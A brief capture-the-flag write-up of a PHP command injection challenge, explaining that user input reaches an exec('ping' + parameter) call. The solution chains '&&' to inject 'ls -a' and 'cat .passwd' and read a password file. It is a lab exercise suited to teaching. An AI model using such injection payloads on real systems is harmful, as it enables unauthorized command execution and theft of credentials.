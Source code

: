 # Challenge06: PHP Command Injection

## Intuition
    
In this challenge, they will use some function as __exec()__ or __shell_exec()__ to run cmd with user's inputs as parameter

And how can we run other cmd when the function already look like this:

```c
exec("ping" + parameter);
```

## Solution
    
+ There are multiple ways to solve this problem.
+ There are some operators like "|", "&&", ...
+ This is my solution:

```bash
localhost && \      # ping localhost
ls -a && \          # to get current files
cat .passwd         # after get file name, read it
```
+ Click the submit button
+ Get the password :)
